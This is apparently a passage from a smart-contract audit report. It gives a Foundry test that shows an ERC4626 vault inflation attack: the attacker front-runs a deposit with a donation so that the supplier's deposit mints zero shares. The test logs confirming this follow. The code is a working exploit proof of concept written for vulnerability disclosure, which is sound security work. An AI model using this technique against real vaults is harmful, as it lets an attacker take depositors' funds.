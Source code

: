 Declare the attacker address in `BaseVaultTest.sol` contract under the other addresses:

```solidity
address internal attacker = makeAddr('attacker');
```

Add the following function to `ERC4626Test.sol`:
```solidity
  function testVaultInflationAttack() public {
    uint256 attackerAssets = 1e18+1;
    uint256 attackerDonation = 1e18;
    uint256 supplierAssets = 1e18;

    loanToken.mint(attacker, attackerAssets);
    loanToken.mint(supplier, supplierAssets);

    /// attacker front-run supplier
    loanToken.mint(0x50EEf481cae4250d252Ae577A09bF514f224C6C4, attackerDonation); // ERC4626Test context will perform the donation as vm.startPrank isn't changing msg.sender to attacker
    allMarkets[0].supplySimple(address(loanToken), address(vault), attackerDonation, 0); // supply vault market position
    console.log("attacker donates assets:", attackerDonation);

    vm.prank(attacker);
    uint256 attackerShares = vault.deposit(attackerAssets, attacker);
    console.log("attacker deposits underlying:", attackerAssets);
    console.log("attacker shares:", attackerShares);
    loanToken.mint(address(vault), 1e18); // same as attacker transfering, but having issue with foundry
    // attacker donation
    
    /// supplier deposit transaction
    vm.prank(supplier);
    uint256 supplierShares = vault.deposit(supplierAssets, supplier);
    console.log("supplier deposits underlying:", supplierAssets);
    console.log("supplier shares:", supplierShares);

    console.log("vault underlying:", vault.totalAssets());
    console.log("vault shares:", vault.totalSupply());
  }
```
</details>

```solidity
Logs:
  attacker donates assets: 1000000000000000000
  attacker deposits underlying: 1000000000000000001
  attacker shares: 1
  supplier deposits underlying: 1000000000000000000
  supplier shares: 0
  vault underlying: 3000000000000000001
  vault shares: 1
```
